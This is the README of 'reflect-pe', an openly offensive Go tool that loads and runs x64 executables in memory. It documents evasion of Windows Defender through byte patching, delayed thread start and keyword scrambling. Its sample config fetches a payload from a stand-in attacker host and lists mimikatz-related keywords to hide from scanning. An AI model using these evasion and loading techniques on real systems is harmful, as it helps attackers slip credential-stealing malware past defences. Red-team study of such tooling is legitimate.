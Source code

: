 # Reflect-pe
![Build](https://github.com/ayoul3/reflect-pe/workflows/Go/badge.svg)  

Reflectively load and execute an x64 Portable Executable in-memory. It does not bluntly allocate RWX memory all over the place. Each section gets its required set of permissions.   It also allows patching bytes on the fly to evade memory inspection (Windows Defender).  
Finally, it produces a self-contained executable so no ugly command lines to be inspected by Defender.  

**Supports x64 both unmanaged PE and managed PE (assemblies)**

## Usage  
1. [Prepare a Go environment](https://golang.org/dl/) to build the reflect-pe on Windows. You cannot cross compile it on a Linux/Unix machine because it uses Windows specific code.  

2. Prepare your `config.yml` file (see below)

3. Build the executable
```
git clone https://github.com/ayoul3/reflect-pe
cd reflect-pe
go build -v .
```
Run it and enjoy

## Config
```
# BinaryPath can either be an HTTP url, a relative path or an absolute path.

BinaryPath: 'http://www.yourevildomain.com/file.exe'

# ReflectArgs is a string containing the arguments passed to your binary when executed in memory.

# For Unmanaged PE: First argument is the program's name. This parameter can be empty

# For managed PE: First argument is the real first argument

ReflectArgs: 'arg0 arg1 arg2'

# 3 options to load an unmanaged executable in memory:
# Wait: will call CreateThread, then wait 15 to 30 seconds before resuming the threat. This proved very effective against Windows Defender.

# <empty>: We do not wait between thread creation and execution

# Function: We overwrite the address of a Go method with the executable's entry point


ReflectMethod:  # wait, function or empty

# CLR runtime version. If the version specified is not found, the latest one will be taken. If it's empty it defaults to v2.  

CLRRuntime: v4

# 0: no logs, 1: Info logs, 2: Debug
LogLevel: 2

# Keywords to be replaced by a random shuffle. Both utf8 and unicode versions are replaced.

Keywords:
  - mimikatz
  - delpy
  - benjamin
  - delpy
```
Ps: config_mimi.yml contains the basic keywords to target to run a mimikatz without triggering Windows Defender

## Limitations
Reflect-pe only works for x64 dynamic executables on 64-bit intel machines.  

It's not stable when it comes to static binary for the good reason that hardcoded absolute addresses are difficult to find and translate to the new relocated address.
So it cannot load a go-binary for instance (among other reasons)  

I still did not try loading a DLL. There may be some small work to do to make it fully work.  


## Credit
* https://github.com/stephenfewer/ReflectiveDLLInjection  
* https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1
* https://github.com/ropnop/go-clr